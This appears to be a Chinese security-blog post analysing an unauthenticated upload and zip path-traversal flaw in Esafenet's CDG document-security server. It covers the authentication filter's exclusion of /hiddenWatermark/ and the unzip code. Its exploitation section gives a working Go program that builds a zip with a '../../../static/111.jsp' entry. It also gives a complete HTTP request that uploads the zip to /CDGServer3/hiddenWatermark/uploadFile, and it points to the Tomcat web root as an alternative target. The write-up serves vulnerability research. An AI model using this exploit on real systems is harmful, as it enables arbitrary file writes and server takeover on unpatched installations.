






# 亿赛通 hiddenWatermark 文件上传漏洞分析 - 先知社区

亿赛通 hiddenWatermark 文件上传漏洞分析

- - -

## 路由分析

查看`web.xml`

```plain
<!-- needed for ContextLoaderListener -->
<context-param>
    <param-name>contextConfigLocation</param-name>
    <param-value>/WEB-INF/spring/spring-sip.xml</param-value>
</context-param>

<servlet>
    <servlet-name>springDispatcherServlet</servlet-name>
    <servlet-class>org.springframework.web.servlet.DispatcherServlet</servlet-class>
    <init-param>
        <param-name>contextConfigLocation</param-name>
        <param-value>/WEB-INF/spring/spring-mvc.xml</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>

<servlet-mapping>
    <servlet-name>springDispatcherServlet</servlet-name>
    <url-pattern>*.do</url-pattern>
</servlet-mapping>
<servlet-mapping>
    <servlet-name>springDispatcherServlet</servlet-name>
    <url-pattern>/</url-pattern>
</servlet-mapping>
```

`DispatcherServlet` 处理和分发 Web 请求，典型的 Spring MVC 配置方式。

看看过滤器

```plain
<!-- 验证 serssion 的过滤器 -->
    <filter>
        <filter-name>SessionValidateFilter</filter-name>
        <filter-class>
            com.esafenet.filter.SessionValidateFilter
        </filter-class>
        <init-param>
            <param-name>excludedLoginUrls</param-name>
            <param-value>/logincontroller,/static/,/images/,/img/,/js/,/css/,/style/,
                /sip-style/,/sip-js/,/index.jsp,/loginExpire.jsp,/app/,/paramExpire.jsp,/druid,/todolistjump.jsp,/3g/,/LinkFilterService
            </param-value>
        </init-param>
        <init-param>
            <param-name>excludedClientUrls</param-name>
            <param-value>/TestConnectService,/GetValidateLoginUserService,
                /GlobalServlet,/secretKey/,/security/,/s/rs/,/FileCountService,/FilesService,/formType,
                /FileAuditService,/GetBoeFlowService,/GetUserSafetyPolicyService,/old/,/GetMacUserSafetyPolicy,/GetLinuxUserSafetyPolicy,/UserLoginOutService1,
                /UninstallApplicationService1,/UpdatePasswordService,/CDGAuthoriseTempletService1,/MailApp,
                /formType1,/AutoSignService1,/clientMessage,/document/,/UpgradeService1,/UpgradeService2,
                /FileLog2Service,/ExamCDGDocService1,/retranAssetsXml,/getAllAuthKey,/ViolationsLogService,
                /DecryptionApp,/software/,/asset/,/deskLog/,/UsbRegStatusAppServlet,/docRenewApp,/EmailDecryptionApp,
                /offlineApp,/outgoingServlet,/OutgoingRestoreApp,/permissionApp,/PrintLimitApp,/SecurityDropApp,
                /warning/,/fileCount/,/PrintAuditService,/outgoing/,/SystemService,/EmailAuditService,
                /GetDeskSafetyPolicyService,/UsbControlServlet,/egmServer/,/syncPolicy/,/secret/,/UserAjax,/OrganiseAjax,
                /GetUsecPolicyService,/OfflineApplicationService1,/OfflineApplicationService2,/client/,/WorkFileServlet,
                /DecryptApplicationService1,/parameter/HookService,/SystemConfig,/UsersService,/workflowE/,/ClientAjax,
                /EmailDecryptFileStatusApp,/getUltraSecKO,/MailMessageLogServices,/dlUltrasec,/checkWindowsPolicyUpdate,/saveKoFile,
                /softwareAsset/,/FileLogsService,/pageConfig,/subSecretQuery,/branchPolicy/,/policyLibNew/,/subsecret/,/rpc/,
                /groupControl/,/subSecretAdd,/exaction/,/subSecretDelete,/syncApi,/patchTask,/patchUpgrade,/log/logReport,/fuseApi,
                /policyLockSend,/wfPasswordConfig/,/estProperties/,/pingandept/,/updateDB/goDbUpdate,/api/estChat/,/hiddenWatermark/,
                /api/syncdata/
            </param-value>
        </init-param>
        ......
    </filter>
    <filter-mapping>
        <filter-name>SessionValidateFilter</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
```

这个 filter 会对 `/*` 鉴权，但是在配置中又排除了很多 url。比如`excludedClientUrls` 中的`/hiddenWatermark/` 。

简单分析下`SessionValidateFilter`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129193143-fa39245a-be99-1.png)

将`excludedClientUrls`中的 path 都放进 `this.excludedClientUrls`。

继续看`doFilter`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129193201-04f7adda-be9a-1.png)

看到`excludedClientUrls`中的都不需要鉴权，当然不只这个。

来看看具体路由，

指定包扫描的规则

```plain
<context:component-scan  base-package="com.esafenet.ta" use-default-filters="false">
    <context:include-filter type="annotation" expression="org.springframework.stereotype.Controller"/>
</context:component-scan>
```

## 漏洞分析

类`com.esafenet.ta.server.controller.deskManage.HiddenWatermarkController`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129193223-12230004-be9a-1.png)

很明显的上传，然后`FileUtil.writeFile` 将内容写进 一个 zip 文件，`CDGUtil.unzipFile` 将其解压。

跟进看看

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129193236-1a248278-be9a-1.png)

与 压缩包内的文件名拼接，可以路径穿越。

回到`uploadFile` ，

```plain
String xmlPath = dirPath + File.separator + uuid + File.separator + "theme" + File.separator + "theme1.xml";
File file = new File(xmlPath);
fis1 = new FileInputStream(file);
```

这里可以构造 `theme1.xml` 按流程走下去。  
但是也可以不构造，然后会抛出异常走 catch

```plain
catch (Exception var32) {
    logger.error(var32.getMessage(), var32);
    map.put("fileId", "null");
    var31 = false;
}
```

## 漏洞利用

制作压缩包

```plain
package main

import (
    "archive/zip"
    "os"
)

func main() {

    zipFilePath := "test1.zip"

    binary := []byte("test1")

    zipFile, err := os.OpenFile(zipFilePath, os.O_WRONLY|os.O_CREATE|os.O_APPEND, 0644)
    if err != nil {
        panic(err)
    }
    defer zipFile.Close()

    zipWriter := zip.NewWriter(zipFile)
    defer zipWriter.Close()

    zipInfo := &zip.FileHeader{
        Name:   "../../../static/111.jsp",
        Method: zip.Deflate,
    }

    writer, err := zipWriter.CreateHeader(zipInfo)
    if err != nil {
        panic(err)
    }

    _, err = writer.Write(binary)
    if err != nil {
        panic(err)
    }
}
```

这里由于写到根目录有鉴权，所以写到`static`等目录。  
也可以写`../../../../../tomcat/webapps/ROOT/`

```plain
POST /CDGServer3/hiddenWatermark/uploadFile HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=------------------------ZJFgyTJOTvpUxHrORpYjkblliLjmziUgFqpcBCZJ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 183

--------------------------ZJFgyTJOTvpUxHrORpYjkblliLjmziUgFqpcBCZJ
Content-Disposition: form-data; name="doc";filename="1.zip"

{{file(d:\test1.zip)}}
--------------------------ZJFgyTJOTvpUxHrORpYjkblliLjmziUgFqpcBCZJ--
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129193308-2cc6a19a-be9a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129193312-2f3d23b8-be9a-1.png)
